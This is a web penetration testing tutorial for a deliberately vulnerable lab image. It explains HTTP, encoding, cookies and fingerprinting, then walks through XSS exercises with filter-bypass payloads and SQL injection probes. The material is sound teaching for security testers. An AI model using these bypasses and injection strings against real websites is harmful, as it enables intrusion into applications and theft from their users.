



Web for Pentester
Introduction
This course details all you need to know to start doing web penetration testing. PentesterLab tried to put together the basics of web testing and a summary of the most common vulnerabilities with the LiveCD to test them.
Once you access the web application, you should see the following page:
The Web
Web applications are probably the most common services exposed by companies and institutions on the internet; furthermore, most old applications have now a "web version" to be available in the browser. This massive transformation makes web security an important part of a network's security.
Security model of the web
The basis of the security model of the web is really simple: don't trust the client. Most information a server will receive can be spoofed by the client. Better to be safe than sorry; it's better to filter and escape everything than to realize later on that a value you thought was not user-controlled is.
Web security risks
Web applications present all the risks of normal applications:
- Compromise.
- Information leak.
- Reputational damage.
- Information loss.
- Money loss.
Web technologies
Architecture
Most web applications rely on 3 components:
- The client: a web browser in most cases.
- The web server that will receive requests from the client. An application server can be involved to process the requests; in that case the web server will just forward the requests to the application server.
- The storage backend to retrieve and save information, most commonly a database.
All these components may have different behaviours that will impact the existence and exploitability of vulnerability. All these components can also present vulnerabilities or security issues.
Client side technologies
Most of the client side technologies are used every day by most Internet users: HTML, JavaScript, Flash... through their browsers (Chromium, Firefox, Internet Explorer, Safari...). However, web applications' clients can also be a thick client connecting to a web service or just a script.
Server side technologies
On the server side a lot of technologies can be used and even if all may be vulnerable to any web issue, some issues are more likely to happen for a given technology.
The server side can be divided into more sub-categories:
- Web servers like Apache, lighttpd, Nginx, IIS...
- Application servers like Tomcat, Jboss, Oracle Application server...
- The programming language used: PHP, Java, Ruby, Python, ASP, C#, ... This programming language can also be used as part of a framework like Ruby-on-Rails, .Net MVC, Django.
Storage backend
The storage backend can be located on the same server as the web server or on a different one. This can explain weird behaviour during the exploitation of some vulnerabilities.
A few examples of backends are:
- Simple files.
- Relational databases like Mysql, Oracle, SQL Server, PostgreSQL.
- Other databases like MongoDB, CouchDB.
- Directories like openLDAP or Active Directory.
An application can use more than one storage backend. For example, some applications use LDAP to store users and their credentials and use Oracle to store information.
The HTTP protocol
HTTP is the base of the web, it's really important to have a deep understanding of this protocol in order to perform web security testing. Knowing and understanding HTTP specificities will often allow you to find vulnerabilities and exploit them.
A Client-server dialog
HTTP is a dialog between one client and one server. The client, the browser, sends a request to the server, and then the server responds to this request. HTTP has the advantages of being a text protocol and therefore really easy to read, understand and learn for a human being. By default, most web servers are available on port TCP/80. When your browser connects to a URL http://pentesterlab.com/, it's in fact doing a TCP connection to the port 80 of the IP corresponding to the name pentesterlab.com.
The most common request occurs when a browser asks the server for content. The browser sends a request composed of the following elements:
- An HTTP method that will allow the server to understand what kind of operation the browser wants to perform.
- A resource that corresponds to what the client is trying to access on the server.
- A version that will allow the server to know what version of HTTP the browser is talking.
- Optionally, various headers giving more information to the server like the browser's name and version, the preferred language of the user (like in English, German, French,...), ...
- Depending on the HTTP method used, a request body.
As an example, a request to the URL http://vulnerable/index.php will correspond to the following HTTP request:
GET /index.php HTTP/1.1 Host: vulnerable User-Agent: Mozilla Firefox
Requests
Methods
Many HTTP methods exist:
- The GET method: to request for content, it's the most common request sent by browsers;
- The POST method: POST is used to send a larger amount of data; it's used by most forms and also for file upload.
- The HEAD method: the HEAD method is very similar to the GET request, the only difference is in the response provided by the server, the response will only contain the headers and no body. HEAD is massively used by web spiders to check if a web page has been updated without downloading the full page content.
There are many other HTTP methods: PUT, DELETE, PATCH, TRACE, OPTIONS, CONNECT... You can read more about them on the Wikipedia page.
Parameters
Another important part of the request are the parameters. When a client accesses the following page http://vulnerable/article.php?id=1&name=2, the following request is sent to the web server:
GET /article.php?id=1&name=2 HTTP/1.1 Host: vulnerable User-Agent: Mozilla Firefox
POST requests are really similar, but instead the parameters are sent in the request body. For example, the following form:
<html>
[...]
<body>
<form action="/login.php" method="POST">
Username: <input type="text" name="username"/> <br/>
Password: <input type="password" name="password"/> <br/>
<input type="submit" value="Submit">
</form>
</body>
</html>
This HTML code corresponds to the following login form:
Once the form is filled with the following values:
- username equals 'admin',
- password equals 'Password123'.
And after it gets submitted, the following request is sent to the server:
POST /login.php HTTP/1.1 Host: vulnerable User-Agent: Mozilla Firefox Content-Length: 35 username=admin&password=Password123
NB: if the method GET was used in the <form tag, the values provided will be sent as part of the URL and look like:
GET /login.php?username=admin&password=Password123 HTTP/1.1 Host: vulnerable User-Agent: Mozilla Firefox
If the form tag contains an attribute enctype="multipart/form-data", the request sent will be different:
POST /upload/example1.php HTTP/1.1 Host: vulnerable Content-Length: 305 User-Agent: Mozilla/5.0 [...] AppleWebKit Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfLW6oGspQZKVxZjA ------WebKitFormBoundaryfLW6oGspQZKVxZjA Content-Disposition: form-data; name="image"; filename="myfile.html" Content-Type: text/html My file ------WebKitFormBoundaryfLW6oGspQZKVxZjA Content-Disposition: form-data; name="send" Send file ------WebKitFormBoundaryfLW6oGspQZKVxZjA--
We can see that there is a different Content-type header: Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfLW6oGspQZKVxZjA. The "Webkit" comes from a Webkit-based browser; other browsers will use a long random string instead. This string is repeated for every part of the multipart information. The last part contains the string followed by --.
When you upload a file, this is what the browser uses. In the multi-part section dedicated to the file, you will see the following information:
- The file name:
myfile.html. - The parameter name:
image. - The file content type:
text/html. - The file content:
My file.
It's also possible to send parameters as an array (or hash depending on the parsing performed on the server side). You can for example use: /index.php?id[1]=0 to encode an array containing the value 0.
This method of encoding is often used by frameworks to perform automatic request to object mapping. For example, the following request: user[name]=louis&user[group]=1 will be mapped to an object User with the attribute name equal to louis and the attribute group mapped to 1. This automatic mapping can sometimes be exploited using attacks named mass-assignment. By sending additional parameters, you can, if the application does not protect against it, change attributes in the receiving object. In our previous example, you could for example add user[admin]=1 to the request and see if your user gets administrator privileges.
HTTP Headers
As we saw, HTTP requests contain a lot of HTTP Headers. You can obviously manipulate all of them but if you provide incorrect values the request is likely to be rejected or the header won't be used.
Furthermore, most applications only use few HTTP headers:
Referer: to know where the clients come from;Cookie: to retrieve the cookies;User-Agent: to know what browser users use;X-Forwarded-For: to get the source IP address (even if it's not the best method to do this).
Other HTTP headers are mostly used by the web server, you can also find security vulnerabilities in their handling. However, you are less likely to find a bug in a web server than in a web application.
One of the most important headers is Host. The Host header is mainly used by the web server to know what web site you are trying to access. When more than one website is hosted on the same server, the web server uses this header to do virtual-hosting: even if you are always connecting to the same IP address, the server reads the Host information and serves the right content based on this. If you put the IP address in the Host header or an invalid hostname, you can sometimes get another website and get extra-information from this.
Responses
When you send a request, the server will respond back with an HTTP response. For example, the following response could be sent back:
HTTP/1.1 200 OK
Date: Sun, 03 Mar 2013 10:56:20 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze14
Content-Length: 6988
Content-Type: text/html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>PentesterLab » Web for Pentester</title>
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta name="description" content="Web For Pentester">
<meta name="author" content="Louis Nyffenegger louis@pentesterlab.com">
[...]
An important part of the response is the status code; it's followed by a reason and is located in the first line of the response. It's used by clients to know how to handle the response. The following status codes are the most common ones:
200 OK: the request was processed successfully.302 Found: used to redirect users, for example when they logout, to send them back to the login page.401 Unauthorized: when the resource's access is restricted.404 Not found: the resource requested by the client was not found.500 Internal Server Error: an error occured during the processing of the request.
Some of them are far less common like 418: I'm a teapot.
After the status code, you can see the HTTP headers.
HTTP headers contain a lot of information and will influence how the browser will handle the request and interpret its content. In the response above, we can see the following information:
- The date.
- The
Serverheader which provides a lot of information about what the remote web server is. - The
X-Powered-Byheader that gives even more information. - The
Content-Lengthheader to tell the browser how big the response will be. - The
Content-Typeheader to tell the browser what to expect. This header will change the browser behaviour; if the header istext/html, the browser will try to render the response. If it'stext/plain, it shouldn't try to render it.
The content is the information sent back. It can be an HTML page, some images, everything basically. When your browser retrieves a HTML page, it will parse it and retrieve each of the resources automatically:
- JavaScript files.
- CSS files.
- Images.
- ...
HTTPs
HTTPs is just HTTP done on top of a Secure Socket Layer (SSL). The SSL part ensures the client that:
- He's talking to the right server: authentication;
- The communication is secure: encryption.
Multiple versions of SSL exist with some of them considered weak (SSLv1 and SSLv2).
SSL can also be used to ensure the client's identity. Client certificates can be used to ensure that only people with valid certificates can connect to the server and send requests. This is a great way to limit access to a service, and is often used for systems requiring a high security level (payment gateway, sensitive web service). However, maintaining certificates (and revocation lists) can be a pain for large deployments.
Listening to HTTP traffic
There are 3 ways to listen to HTTP traffic:
- By listening to the network directly with tools like Wireshark or tcpdump.
- In the browser; most browsers have an extension allowing a user to see what traffic is transmitted and received.
- By setting up a proxy between the browser and server.
Each of these methods has advantages and disadvantages. We will see later that it really depends on whether or not the communications are using Secure Socket Layer (SSL), and whether or not the user wants to be able to intercept/modify the request.
Generating HTTP traffic
Generating HTTP traffic can be performed in different ways:
- Since it's a text-oriented protocol, you can just use a tool like telnet or netcat and type your request.
- Sending HTTP traffic can also be done using a programming language. All of them can easily be used to write and read traffic from a socket, and communicate with the server. Furthermore, most languages have an HTTP library allowing a programmer to easily build and send requests and get the corresponding responses.
- Finally, the easiest way to generate an HTTP request is to use a browser.
Using a browser is obviously the easiest way to access a website. However, other methods will allow you to have better access to details, and to craft any HTTP requests.
Using telnet (or netcat) you can quickly send HTTP requests:
$ telnet vulnerable 80 GET / HTTP/1.1 Host: vulnerable [...]
You can also do the same thing using netcat:
$ echo "GET / HTTP/1.1\r\nHost: vulnerable\r\n\r\n" | nc vulnerable 80 [...]
Data encoding
Code vs. data
Most security issues come from the fact that an attacker is able to put code where the application expects data. Most of the web security issues like XSS or SQL injections come from this; the application receives data, but uses this data as code.
URL encoding
As we have seen, some characters are used in HTTP to distinguish between:
- Each request's lines:
\r\n. - Each part of the HTTP request (like between the method and the URI): space
. - The path and the parameters:
?. - Each parameter:
&; - A parameter name and the corresponding value:
=.
However, for most attacks these characters are needed, in order to ensure a character is understood as a value and not as part of a request's delimiter; it needs to be encoded. The simplest encoding consists of using % followed by the hexadecimal value of the character. In the same way, since % is used to encode values, it should be encoded...
In order to retrieve the hexadecimal value of a given character, the ascii table can be used. The following table shows characters used as part of the HTTP protocol and their URL-encoded value:
| Character | URL encoded value |
|---|---|
| \r | %0d |
| \n | %0a |
| %20 or `+` | |
| ? | %3f |
| & | %26 |
| = | %3d |
| ; | %3b |
| # | %23 |
| % | %25 |
You can use the ASCII table to get the full list. It can be retrieved by running man ascii on most Linux systems, or by googling "ascii table".
Double encoding
Sometimes, the system being tested can also decode the provided value, twice. For example, the web server can do a first decoding and the application a second one. In this case, you will need to double encode the special characters you want to send.
To do so, you just need to re-encode the encoded value. For example, if you want to double-encoded an equal sign =, you will need to encode it as a %3d and then re-encode it: %253d.
Once receiving %253d, the web server may decode it as %3d and the web application may decode %3d again as =.
Double encoding can also be used to bypass some filtering mechanisms, under some conditions. This behaviour obviously depends on the behaviour of each component in the chain involved, during the handling of the HTTP request.
HTML encoding
As with URL encoding, some characters in HTML have a specific semantic and should therefore be encoded if they need to be used without their semantics' implication.
| Character | HTML encoded value |
|---|---|
| > | > |
| < | < |
| & | & |
| " | "e; |
| ' | ' |
Any character can also be encoded using their
- Decimal value, for example,
=can be encoded as=. - Hexadecimal value, for example,
=can be encoded as=.
Cookies and sessions
Cookies (and indirectly sessions) are used to keep information between two HTTP requests. If a browser sends two times the same request without cookies, there is no way for the server to see that it's the same person. You could think that the IP address is enough, however a lot of people share the same IP address in corporate environments and mobile networks (since they go through the same proxy). It's also possible to keep information on the current user using information as part of the URL but this can quickly get ugly and the information is easily available in the browser's history.
Cookies are initially sent by the server using an HTTP header: Set-Cookie. Once this header is received, the browser will automatically send the cookie back to the server, in all subsequent requests sent to this server, using a Cookie header.
The Set-Cookie header contains many optional fields:
- An expiration date: to tell the browser when it should delete the cookie.
- A
Domain: to tell the browser what sub-domain or hostname the cookie should be sent to. - A
Path: to tell the browser which path the cookies should be sent. - Security flags.
By default, the Path and Domain are mostly used to increase or restrict the availability of a given cookie for the application within the same domain or within the same server.
Cookies can have two security related flags:
- httpOnly: to prevent the access to the cookies by JavaScript code. This mechanism prevents trivial exploitation of Cross-Site Scripting by limiting direct access to cookies using
document.cookiein JavaScript. - secure: to prevent the browser from sending the cookies over unencrypted communications. This is mostly used to limit the risk of someone getting his cookie stolen, when browsing a web site without a secure connection.
Sessions are mechanisms that use cookies as a transport medium. The main problem with cookies is that users can intercept and tamper with them. To prevent this, developers started using sessions. The cookie sent back to the user contains a session identifier (session id). When the user sends the cookie back in the next requests, the application uses this session identifier to access information stored locally. This information can be stored in a file, in a database or in memory. Some sessions' mechanisms also encrypt the data for security reasons.
Rack::Session::Cookie is used by default in Rack based applications (most of Ruby applications use Rack). This provides a different session mechanism. The information is sent back to users, but is signed with a secret. This way, the users cannot tamper with the information in the session (but they can still access it, once they decode it).
By default, in PHP, the sessions are saved using one file per session and are stored unencrypted (on Debian in /var/lib/php5/). If you have local access to the system you can go and read other peoples' session information. If for example your session id (the value sent back in the cookie value) is o8d7lr4p16d9gec7ofkdbnhm93, you will see a file named sess_o8d7lr4p16d9gec7ofkdbnhm93 which contains the information in the session:
# cat /var/lib/php5/sess_o8d7lr4p16d9gec7ofkdbnhm93 pentesterlab|s:12:"pentesterlab";
HTTP authentication
HTTP also provides mechanisms to authenticate users. There are three methods available as part of the protocol:
- Basic Authentication: the username and password are encoded using base64 and sent using an
Authorizationheader:Authorization: basic YWRtaW46YWRtaW4K. - Digest Authentication: the server sends a challenge (unique information to be used), the client responds to this challenge (hash information including the password provided by the user). This mechanism prevents the password from being sent unencrypted to the server.
- NTLM authentication: that is mostly used in the Microsoft world and is quite similar to Digest.
Web services
Web services are mostly a simple way to call remote methods using HTTP. It's basically a fancy way to send calls to the server and get a response back. The information sent can be:
- Sent as with any other HTTP requests for REST.
- Sent using XML messages for SOAP.
- Sent using JSON-based message.
The remote method called can be retrieved by the server:
- Based on the URL.
- Based on the HTTP header (
SOAPActionfor example). - Based on the message content.
Testing web services is really similar to testing traditional web applications, aside from the fact that your browser will probably not (out of the box) be able to talk to the server-side. But once you have examples of requests, you can easily use a scripting language or any tool allowing you to send HTTP request to fuzz and attack the server-side code.
Web application security
In this section, we will see where application security should be performed.
Client Side Security
A common misconception of developers is to perform security checks on the client side, for example in JavaScript. For example, to validate a phone number.
First the user will enter the phone number:
The JavaScript code will then check the value:
And the value seems correct:
The value will then be sent to the server:
The browser won't send the request if the phone number is not in the correct format:

The JavaScript will check the value:
And reject it:
The request will not be sent to the server.
These types of checks are inefficient, are easily bypassed and should not be used as security mechanisms. However, these checks can reduce the load on the server, by limiting the number of requests to process. If each client's information is correct before being sent, fewer incorrect requests will be sent, and this will lower the server's load.
Bypassing Client Side Checks
To bypass client side checks, you need to setup a proxy like Burp Suite. Once you have the proxy running, you need to tell your browser to send the requests through this proxy (by changing its configuration or environment variables depending on your browser and operating system). You will then see the requests sent by your browser and will be able to intercept and tamper with them.
Once you set up the proxy, you will be able to intercept the request sent by your browser:
Then you can modify it:
And the server will respond to your modified request:

By using the correct value in the browser, the form gets submitted. However, the proxy is then used to modify the value and start attacking the web application:

Server side
Applications' security should be performed on the server side. All information received should not be trusted; data itself or data format should be considered as malicious. Don't expect a parameter to be a string; it can be a hash or an array. Don't expect a parameter to be an integer; it can be a string. Even the hostname of the current server (provided by the Host header) can be malicious. Don't trust anything and make sure you double check everything. It's likely that someone will find out about something, if you build a weak application.
Don't expect people to not find out about something; if you build something weak it's likely that someone will find out.
Fingerprinting
Fingerprinting is the first task of a web application test. Fingerprinting will provide the tester with a lot of useful information, which would exacerbate other vulnerabilities, potentially leading to successful exploitation.
Fingerprinting the web server
Fingerprinting the web server consists of trying to retrieve as much information as possible about it:
- Name and version of the server.
- Is an application server used in the backend?
- Database backend, is the database on the same host.
- Usage of a reverse proxy.
- Load balancing.
- Programming language used.
Retrieving the server name and version can be easily done by inspecting the HTTP headers:
$ telnet vulnerable 80 GET / HTTP/1.1 Host: vulnerable HTTP/1.1 200 OK Date: Sun, 03 Mar 2013 10:56:20 GMT Server: Apache/2.2.16 (Debian) X-Powered-By: PHP/5.3.3-7+squeeze14 Content-Length: 6988 Content-Type: text/html
You can also use a bad Host header (or just the IP) to get the default virtual-host and get more information:
$ telnet vulnerable 80 GET / HTTP/1.1 Host: thisisabadvalue
Browsing the web site
Another action to perform during the fingerprinting process is to simply browse the website and keep track of any interesting functionalities found:
- Upload and download functionalities.
- Authentication forms and links: login, logout, password recovery functions.
- Administration section.
- Data entry points: "Leave a comment", "Contact us" forms.
During this phase, it's interesting to check the source of the web page and search for HTML comments. Comments often provide interesting information about the web site. All browsers allow you to access the source of the web page. You can then search for HTML comments tags: i.e. information between <!-- and -->. Most of the time, the source code is coloured and the comments are easy to spot:
The file extension used by the web site will provide you more information about which technology is being used:
- if you see
.phpfile, the application is written in PHP; - if you see
.jspor.dofiles, the application is written in Java; - ...
It's also possible to fingerprint the website by looking at the way the actions are mapped to URLs. For example, in Ruby-On-Rails, developers can use scaffolding to automatically generate code to manage the views (HTML code), the model (storage logic) and the controller (business logic) for a given object. This will generate a URL mapping in which:
/objects/will give you a list of all the objects;/objects/newwill give you the page to create a new object;/objects/12will give you the object with the id 12;/objects/12/editwill give you the page to modify the object with the id 12;- ...
Check for favicon.ico
The favicon.ico is this little picture you can find in your browser URL bar when you visit a web site:
This picture can be used as a fingerprinting element since most developers or system administrators don't change it and most applications or servers provide their own. For example, the favicon below is used by Drupal.
Check the robots.txt file
Another common file deployed with applications is the robots.txt. Some PHP-based applications make heavy use of robots.txt, to prevent search engines from indexing some parts of the application. They are a really good source of information, and can be used to map interesting parts of the application and to find out what framework or application is used to build the website.
For example, the following robots.txt is used by the CMS Joomla:
# If the Joomla site is installed within a folder such as at # e.g. www.example.com/joomla/ the robots.txt file MUST be # moved to the site root at e.g. www.example.com/robots.txt # AND the joomla folder name MUST be prefixed to the disallowed # path, e.g. the Disallow rule for the /administrator/ folder # MUST be changed to read Disallow: /joomla/administrator/ # # For more information about the robots.txt standard, see: # http://www.robotstxt.org/orig.html # # For syntax checking, see: # http://tool.motoricerca.info/robots-checker.phtml User-agent: * Disallow: /administrator/ Disallow: /cache/ Disallow: /cli/ Disallow: /components/ Disallow: /images/ Disallow: /includes/ Disallow: /installation/ Disallow: /language/ Disallow: /libraries/ Disallow: /logs/ Disallow: /media/ Disallow: /modules/ Disallow: /plugins/ Disallow: /templates/ Disallow: /tmp/
It also tells you what you should check. If a website does not want something to be indexed it's probably because it's interesting security-wise.
Searching for directories and pages
After browsing the website, it's important to search for pages or directories that are not directly available through a link. To achieve that, you need to use a list of file names and check if these names exist on the remote server.
Directory/Pages busting
The tool Wfuzz (http://www.edge-security.com/wfuzz.php) can be used to detect directories and pages on the web server using wordlists of common resource names.
The following command can be run to detect remote files and directories:
$ python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404 http://vulnerable/FUZZ
You can do a lot with Wfuzz:
- Filter based on the error code.
- Only search for files with a given extension:
http://vulnerable/FUZZ.php. - Brute force credentials.
- ...
As with any other tool, the best way to learn is to play with it and see what you can do.
Finding administration pages
Most administration pages are well known URLs, and can be found using a directory buster. However it's always really handy to keep a list of administration pages per technology/server. You can also check the product/project documentation to get this information.
Generating errors
Generating 404 errors can give you a lot of information about the backend hosting the web application. In order to generate the error, you just have to put a random string in the URL you request, for example randomlongstring.
The server's configuration can obviously change this behaviour, but this is the page you will get, containing a 404 error, if the server is Tomcat:
And the same thing for Ruby-on-Rails:
There are lots of different ways to generate errors in a web application. For example, by adding some special characters, like a NULL byte (%00), a single quote (%27) or a double quote (%22) you are likely to generate errors. You can also remove a value from the HTTP request. Once you manage to get the error page, you can understand more about what you are attacking (example for Tomcat):
Anything that can modify the application's behaviour and generate errors is a good way to retrieve information. An easy test with a PHP applications is to replace /index.php?name=hacker with /index.php?name[]=hacker.
One of the key things is to be able to read errors. It sounds silly, but you would be surprised by how many people think that two errors are the same, even if the error messages are different: "The devil is in the details".
Keep information
Any information should be kept, everything should be saved:
- A path on the remote server.
- An error message.
- The database backend used.
- An internal IP address disclosed in the headers.
- Everything, ...
Keeping information will often help you exploit another vulnerability. For example, if you need to know where the application is stored on the server, you may already have this information, thanks to an error message from another part of the application.
Building useful tools
Being able to have some simple scripts to send HTTP requests can be really handy. I would recommend that you build at least the following:
- An HTTP client using a traditional HTTP library (like Ruby's net/http) and one using sockets only that allows you to send basic GET and POST requests.
- An HTTP client that supports SSL (both with HTTP library and with socket only).
- An HTTP client that supports cookies (both with HTTP library and with socket only).
Once you have all of this ready to go, it is really easy to build your own tool to exploit a vulnerability or to automate some part of the discovery process during a test. Complex bugs often need a bit of automation. You are unlikely to be able to exploit them, unless you can write your own HTTP clients.
Examples of Web vulnerabilities
This section puts together a few practical exercises on common web vulnerabilities. If you are already familiar with web testing, don't read further and just try and see how you do. Then you can come back, to see what other methods can be used, and what was expected.
To test for web vulnerabilities, I mainly mix two methods:
- Trying to work out what the code on the server side looks like.
- Trying to send different values that should give you the same results if the page is vulnerable.
I will provide some examples of these methods for the examples in the ISO.
In this exercise, the error messages are echoed back in most pages. However in real life, error messages should be (and often are) turned off. The methods used here to detect each vulnerability work for both cases.
You also need to remember that penetration testing is a guessing game. You will sometimes need to guess a path, or try hundreds of values. You may try your usual detection methods, only to find that a third of them work. You will then need to come up with new assertions, to work out if a particular page is vulnerable.
Most web issues rely on the same problem: being able to break the syntax:
- Breaking the syntax of an SQL statement, in order to leverage an SQL injection vulnerability.
- Breaking the syntax of a HTML page, in order to leverage a Cross-Site Scripting vulnerability.
- ...
For example, if you have the following pattern:
[CODE][SEPARATOR][USER INPUT][SEPARATOR][CODE]
Your goal is to use [USER INPUT] to inject [CODE] and to do that, you will need to inject a [SEPARATOR] as part of the [USER INPUT]. Sometimes there is no need of a separator. In most cases, the separator is one of these characters: ', ", `. Injecting them (one after another) and observing the responses you get back will often give you an indication of the presence of anything suspect.
Cross-Site Scripting (XSS)
Cross-Site Scripting stems from a lack of encoding when information gets sent to application's users. This can be used to inject arbitrary HTML and JavaScript; the result being that this payload runs in the web browser of legitimate users. As opposed to other attacks, XSS vulnerabilities target an application's users, instead of directly targeting the server.
Some examples of exploitation include:
- injecting a fake login form;
- retrieving legitimate users' cookies;
- injecting browser's exploits;
- getting users to perform an arbitrary action in the web application;
- ...
In this section, we will only focus on the detection of Cross-Site Scripting. You will have to wait for a full exercise on this subject to get more details on how to exploit these vulnerabilities.
The easiest, and most common proof that a XSS vulnerability exists is to get an alert box to pop up. This payload has many advantages:
- it shows that JavaScript can be triggered;
- it's simple;
- it's harmless.
To trigger a pop-up, you can simply use the following payload: alert(1).
If you are injecting inside HTML code, you will need to tell the browser that this is JavaScript code. You can use the <script> tag to do that: <script>alert(1);</script>.
When testing for XSS, there are two important things to remember:
- The response you get back from the server is probably not the only place this information will be echoed back. If you inject a payload and you get it back correctly encoded in page A, it doesn't mean that this information will be correctly encoded in page B.
- If you find a problem with encoding, but can't get your XSS payload to run, someone else may be able to. It's always important to report an encoding problem, even if some protection prevents you from getting your payload from executing. Security is an evolving domain, with new tricks published every week. Even if you cannot exploit a XSS vulnerability now, you or someone else may be able to get another payload to work later on.
There are three types of XSS:
- Reflected: the payload is directly echoed back in the response.
- Stored: the payload can be echoed back directly in the response but will more importantly be echoed back in the response when you come back to this page or to another page. The payload is stored in the backend of the application.
- DOM-based: the payload is not echoed back in the page. It gets executed dynamically when the browser renders the page.
When testing for XSS, you need to read the source of the HTML page sent back, you cannot just wait for the alert box to pop up. Check what characters get encoded and what characters don't get encoded. From this, you may find a payload that works.
Some browsers provide built-in protection against XSS. This protection can be enabled or disabled by the server (it has been disabled in the ISO). If you find that your payload is directly echoed back in the page but no alert box pops up, it's probably because of this protection. You can also disable this protection by telling your browser to disable it. For example, in Chrome, it can be done by running Chrome with the option --disable-xss-auditor.
Example 1
The first vulnerable example is just here to get you started with what is going on when you find a XSS. Using the basic payload, you should be able to get an alert box.
Once you send your payload, you should get something like:
Make sure that you check the source code of the HTML page to see that the information you sent as part of the request is echoed back without any HTML encoding.
Example 2
In the second example, a bit of filtering is involved. The web developer added some regular expressions, to prevent the simple XSS payload from working.
If you play around, you can see that <script> and </script> are filtered. One of the most basic ways to bypass these types of filters is to play with the case: if you try <sCript> and </sCRIpt for example, you should be able to get the alert box.
Example 3
You notified the developer about your bypass. He has added more filtering, wich now seems to prevent your previous payload. However, he is making a terrible mistake in his code (which was also present in the previous code)...
If you keep playing around, you will realise that if you use Pentest<script>erLab for payload, you can see PentesterLab in the page. You can probably use that to get <script> in the page, and your alert box to pop up.
Example 4
In this example, the developer decided to completely blacklist the word script: if the request matches script, the execution stops.
Fortunately (or unfortunately depending on what side you are on), there are a lot of ways to get JavaScript to be run (non-exhaustive list):
- with the
<atag and for the following events:onmouseover(you will need to pass your mouse over the link),onmouseout,onmousemove,onclick... - with the
<atag directly in the URL:<a href='javascript:alert(1)'...(you will need to click the link to trigger the JavaScript code and remember that this won't work since you cannot usescriptin this example). - with the
<imgtag directly with the eventonerror:<img src='zzzz' onerror='alert(1)' />. - with the
<divtag and for the following events:onmouseover(you will need to pass your mouse over the link),onmouseout,onmousemove,onclick... - ...
You can use any of these techniques to get the alert box to pop-up.
Example 5
In this example, the <script> tag is accepted and gets echoed back. But as soon as you try to inject a call to alert, the PHP script stops its execution. The problem seems to come from a filter on the word alert.
Using JavaScript's eval and String.fromCharCode(), you should be able to get an alert box without using the word alert directly. String.fromCharCode() will decode an integer (decimal value) to the corresponding character.
Using this trick and the ascii table, you can easily generate the string: alert(1) and call eval on it.
Another easier bypass is to use the functions prompt or confirm in Javascript. They are less-known, but will give you the same result.
Example 6
Here, the source code of the HTML page is a bit different. If you read it, you will see that the value you are sending is echoed back inside JavaScript code. To get your alert box, you will not need to inject a script tag, you will just need to correctly complete the pre-existing JavaScript code and add your own payload, then you will need to get rid of the code after your injection point by commenting it out (using //) or by adding some dummy code (var $dummy = ") to close it correctly.
Example 7
This example is similar to the one before. This time, you won't be able to use special characters, since they will be HTML-encoded. As you will see, you don't really need any of these characters.
This issue is common in PHP web applications, because the well-known function used to HTML-encode characters (htmlentities) does not encode single quotes ('), unless you told it to do so, using the ENT_QUOTES flag.
Example 8
Here, the value echoed back in the page is correctly encoded. However, there is still a XSS vulnerability in this page. To build the form, the developer used and trusted PHP_SELF which is the path provided by the user. It's possible to manipulate the path of the application in order to:
- call the current page (however you will get an HTTP 404 page);
- get a XSS payload in the page.
This can be done because the current configuration of the server will call /xss/example8.php when any URL matching /xss/example8.php/... is accessed. You can simply get your payload inside the page by accessing /xss/example8.php/[XSS_PAYLOAD]. Now that you know where to inject your payload, you will need to adapt it to get it to work and get the famous alert box.
Trusting the path provided by users is a common mistake, and it can often be used to trigger XSS, as well as other issues. This is pretty common in pages with forms, and in error pages (404 and 500 pages).
Example 9
This example is a DOM-based XSS. This page could actually be completely static and still be vulnerable.
In this example, you will need to read the code of the page to understand what is happening. When the page is rendered, the JavaScript code uses the current URL to retrieve the anchor portion of the URL (#...) and dynamically (on the client side) write it inside the page. This can be used to trigger a XSS vulnerability, if you use the payload as part of the URL.
SQL injections
SQL injections are one of the most common (web) vulnerabilities. All SQL injections exercises, found here, use MySQL for back-end. SQL injections come from a lack of encoding/escaping of user-controlled input when included in SQL queries.
Depending on how the information gets added in the query, you will need different things to break the syntax. There are three different ways to echo information in a SQL statement:
- Using quotes: single quote or double quote.
- Using back-ticks.
- Directly.
For example, if you want to use information as a string you can do:
SELECT * FROM user WHERE name="root";
or
SELECT * FROM user WHERE name='root';
If you want to use information as an integer you can do:
SELECT * FROM user WHERE id=1;
And finally, if you want to use information as a column name, you will need to do:
SELECT * FROM user ORDER BY name;
or
SELECT * FROM user ORDER BY `name`;
It's also possible to use an integer as string, but it will be slower:
SELECT * FROM user WHERE id='1';
The way information is echoed back, and even what separator is used, will decide the detection technique to use. However, you don't have this information, and you will need to try to guess it. You will need to formulate hypotheses and try to verify them. That's why spending time poking around with the examples on the liveCD is so important.
Example 1
In this first example, we can see that the parameter is a string, and we can see one line in the table. To understand the server side code, we need to start poking around:
- If we add extra characters like "1234", using
?name=root1234, no record is displayed in the table. From here, we can guess that the request uses our value in some kind of matching. - If we inject spaces in the request, using
?name=root+++(after encoding), the record is displayed. MySQL (by default) will ignore trailing spaces in the string when performing the comparison. - If we inject a double quote, using
?name=root", no record is displayed in the table. - If we inject a single quote, using
?name=root', the table disappears. We probably broke something...
From this first part, we can deduce that the request must look like:
SELECT * FROM users WHERE name='[INPUT]';
Now, let's verify this hypothesis.
If we are right, the following injections should give the same results.
?name=root' and '1'='1: the quote in the initial query will close the one at the end of our injection.?name=root' and '1'='1' #(don't forget to encode#): the quote in the initial query will be commented out.?name=root' and 1=1 #(don't forget to encode#): the quote in the initial query will be commented out and we don't need the'in'1'='1'.?name=root' #(don't forget to encode#): the quote in the initial query will be commented out and we don't need the1=1.
Now these requests may not return the same thing:
